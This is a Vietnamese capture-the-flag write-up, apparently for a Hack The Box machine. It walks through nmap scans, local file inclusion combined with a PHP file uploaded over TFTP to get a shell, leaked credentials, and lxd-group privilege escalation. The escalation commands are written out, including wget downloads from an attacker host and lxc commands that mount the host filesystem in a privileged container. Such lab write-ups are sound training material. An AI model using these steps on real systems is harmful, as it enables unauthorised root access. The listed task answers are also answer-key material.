## Task 1


Target này đặc biệt hơn vì yêu cầu quét UDP nên chúng ta đổi câu lệnh một chút
```bash
sudo nmap --top-ports=1000 -T4 -sU -Pn 10.129.62.57
```



Tuy nhiên thông tin này cũng chưa xác định được nên tiến hành enum thêm về TCP
```bash
sudo nmap --top-ports=1000 -T4 -sC -sV -Pn 10.129.62.57
```



Khi login vào web page chúng ta thấy một điều đặc biệt

Đây là dấu hiện của một hàm include sẽ nhận file từ request sau đó tìm file này để hiển thị và nếu server đang sử dụng hàm này thì nó sẽ không giới hạn phạm vi trong /var/www/html, thử giả thuyết này bằng cách request /etc/passwd


Vậy là thật sự có một dịch vụ tfpt đang được chạy 
> 69
## Task 2


> Local File Inclusion
## Task 3


> /var/lib/tftpboot/
## Task 4


Từ lỗi LFI thì chúng ta thể thực hiện lệnh list được nhưng chúng ta có tftp và LFI để trigger file nên thử RCE bằng file php xem sao


Sau đó trigger để chạy


Chúng ta có được shell giờ thì thực hiện tìm kiếm, ở index.php kiểm chứng giả thiết

Ngay tại thư mục này chúng ta cũng có 2 file đáng ngờ


Thực hiện đọc thử nội dung của 2 file này



> .htpasswd
## User Flag
Ở bước trên chúng ta đã thu được credential `mike:Sheffield19` switch qua user này thì được user.txt

## Task 6


Chúng ta kiểm tra xem mike đang thuộc các group nào


LXD daemon chạy với quyền **root**, và bất kỳ user nào thuộc group `lxd` có thể giao tiếp với LXD socket (`/var/snap/lxd/common/lxd/unix.socket` hoặc tương tự) **mà không cần sudo**. Vì LXD cho phép tạo container với flag `security.privileged=true`, user trong group này có thể:
1. Tạo 1 container **privileged**
2. Mount **toàn bộ filesystem của host** vào trong container đó
3. Vì container privileged chạy **không bị namespace isolation về UID** (root trong container = root thật trên host), chúng ta có full quyền đọc/viết lên filesystem host → effectively root trên host.
> LXD
## Task 7


> alpine
## Task 8


> security.privileged=true
## Task 9


> /mnt/root/
## Root Flag
Tuy nhiên trên máy này lại không có bất kì image nào, chúng ta thử download từ internet nhưng bất thành vì máy này không connect internet. Trên máy attacker chúng ta phải chuẩn bị các file cần thiết bằng cách truy cập trang repo chính thức https://images.lxd.canonical.com/

Tiến hành download 2 file rootfs.squashfs và lxd.tar.xz. Tiến hành host một server và download từ máy target
```bash
wget http://10.10.15.234:8000/rootfs.squashfs
wget http://10.10.15.234:8000/lxd.tar.xz
```
Sau đó chúng ta tiến hành import image này
```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```
Tiến hành cấu hình để mount thư mục root vào container
```bash
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc 
lxc exec privesc /bin/sh
```
Giờ thì lục tìm root.txt thôi

